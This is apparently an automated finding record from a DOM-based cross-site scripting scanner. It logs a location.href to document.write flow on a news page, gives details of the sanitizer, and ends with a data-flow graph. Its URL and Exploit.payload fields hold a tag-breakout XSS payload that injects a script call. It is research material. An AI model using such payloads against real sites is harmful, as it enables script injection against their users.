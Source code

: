 // Finding: 41026765-f532-46e5-97a1-c7c801bbc680
// Finding.url: https://example308.com/hongkong/lifestyle/canto-hindi-film-my-indian-boyfriend-changes-chinese-title-amid-criticism-over-apparent-racial-slur/##</iframe></style></script></object></embed></textarea><script>taintfoxLog('de876d4334324b448bf4e848906c3255')</script><!--/*
// Finding.parentloc: https://example308.com/hongkong/lifestyle/canto-hindi-film-my-indian-boyfriend-changes-chinese-title-amid-criticism-over-apparent-racial-slur/##</iframe></style></script></object></embed></textarea><script>taintfoxLog('de876d4334324b448bf4e848906c3255')</script><!--/*
// Finding.domain: example308.com
// Finding.base_domain: example308.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 3
// Sanitizer.name: 
// Sanitizer.location: https://example308.com/hongkong/lifestyle/canto-hindi-film-my-indian-boyfriend-changes-chinese-title-amid-criticism-over-apparent-racial-slur/##</iframe></style></script></object></embed></textarea><script>taintfoxLog('de876d4334324b448bf4e848906c3255')</script><!--/* - <anonymous>:1473:899
// Finding.begin: 14
// Finding.end: 407
// Finding.original_uuid: 34f8adca-3e86-45e9-8dd7-f11b11a28cb6
// Finding.TwentyFiveMillionFlowsId: -488409431
// Finding.script: https://example308.com/hongkong/lifestyle/canto-hindi-film-my-indian-boyfriend-changes-chinese-title-amid-criticism-over-apparent-racial-slur/##</iframe></style></script></object></embed></textarea><script>taintfoxLog('de876d4334324b448bf4e848906c3255')</script><!--/*
// Finding.line: 1473
// Exploit.uuid: de876d43-3432-4b44-8bf4-e848906c3255
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: F
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 139
// Exploit.replace_begin_url: 139
// Exploit.replace_end_url: 139
// Exploit.replace_begin_param: 169
// Exploit.replace_end_param: 169
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 824355387
// DepGraph.sanitizer_hash: -7238096

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="escape"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="encodeURIComponent"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: &amp;location="];
n7 [shape=box, label="Var: x"];
n8 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n4 -> n1;
n3 -> n4;
n5 -> n6;
n5 -> n3;
n7 -> n5;
n8 -> n7;
}